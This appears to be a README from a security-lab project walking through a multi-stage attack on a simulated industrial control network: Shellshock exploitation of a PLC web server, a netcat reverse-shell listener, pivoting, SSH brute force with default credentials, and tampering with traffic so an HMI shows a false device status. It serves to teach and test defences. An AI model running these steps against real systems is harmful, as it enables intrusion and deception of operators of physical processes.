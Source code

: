 # Multi Stage Attack scenario

This page outlines an attack targeting the Internal Gateway, which is not directly accessible from the attacker machine. To overcome this limitation, the attacker leverage ShellShock vulnerability in the Genera-PLC to pivot and gain access to the target. Then, traffic is spoofed to manipulate M-IED1 device.

---

The first stage of the attack path exploits the Shellshock vulnerability in the General-PLC, specifically targeting the CGI-Bin module of the Apache web server. This vulnerability enables attackers to inject and execute malicious commands through specially crafted HTTP requests since the CGI (Common Gateway Interface) scripts on Apache invoke the Bash shell for processing the HTTP response. The following commands illustrate the exploitation process:

- Execute the exploit:
```bash
python3 shellshock.py 10.0.1.100 4444 http://10.0.1.66//cgi-bin/stats
```

- Establish a reverse shell listener:
```bash
nc -lvnp 4444
```

![Shellshock Exploit](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/shellshock.png "Figure: Shellshock Exploit")

![Reverse Shell](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/reverse.png "Figure: Reverse Shell")

To progress further along the attack path, the attacker must perform pivoting to reach the I-Gateway. Indeed, this device is typically unreachable from the SCADA Network. However, by compromising the General-PLC, the attacker can bypass these restrictions and establish a connection to the I-Gateway using port forwarding techniques.

![Tool Download](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/download.png "Figure: Tool Download")

Then, the attacker is able to brute force the SSH service exposed by the gateway and take complete control of the endpoint. In fact, this service was exploited by finding the default credential. Therefore, this credential enables us also to gain root privilege.

![SSH Bruteforce](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/bruteforce.png "Figure: SSH Bruteforce")

Then, the attacker brute-forces the SSH service exposed by the I-Gateway. This attack exploits the discovery of default credentials configured for the SSH authentication mechanism. Moreover, the use of these credentials grants root privileges.

![SSH Access](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/ssh-mod.png "Figure: SSH Access")

Finally, the attacker alters the communication passing through the I-Gateway in order to manipulate the visualization of the M-IED1 status.

![Packet Modification](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/packetModification.png "Figure: Packet Modification")

Indeed, from the HMI interface, we can observe that MIED1 appears to be active. However, by using the TestNode, which is connected to the same network interface as the MPLC, it is possible to confirm that the displayed MIED1 is close.

![Shellshock Exploit](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/HMI.png "Figure: Shellshock Exploit")

![Shellshock Exploit](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/coils.png "Figure: Shellshock Exploit")
